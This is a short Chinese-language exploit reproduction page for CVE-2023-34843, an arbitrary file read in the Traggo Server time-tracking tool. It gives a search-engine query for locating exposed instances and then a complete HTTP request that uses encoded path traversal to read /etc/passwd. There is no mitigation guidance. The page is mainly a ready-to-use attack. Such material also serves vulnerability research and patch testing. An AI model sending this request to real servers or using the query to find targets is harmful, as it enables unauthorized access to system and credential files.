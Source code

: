 # Traggo Server任意文件读取漏洞(CVE-2023-34843)

# 一、漏洞简介
`Traggo Server`是一个基于标签的时间跟踪工具。在`Traggo`中，没有任务，只有标记的时间跨度。可以用来跟踪、分析每天时间用在哪些地方，方便更好的管理时间，提高效率。`Traggo`存在任意文件读取漏洞。

## 二、影响版本
+ `Traggo Server`

# 三、资产测绘
+ hunter`app.name="Traggo"`
+ 登录页面

![1693741695368-68067cc7-61f5-4530-b5a9-52f16a282aa5.png](./img/VlgslYayTvwObt7Z/1693741695368-68067cc7-61f5-4530-b5a9-52f16a282aa5-647572.png)

# 四、漏洞复现
```java
GET /static/..%5c..%5c..%5c..%5cetc/passwd HTTP/2
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
```

![1693741775280-eb64edb6-8d52-406d-bcce-f9d83ee9f3c4.png](./img/VlgslYayTvwObt7Z/1693741775280-eb64edb6-8d52-406d-bcce-f9d83ee9f3c4-724816.png)



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gcc1enullkmmd0hf>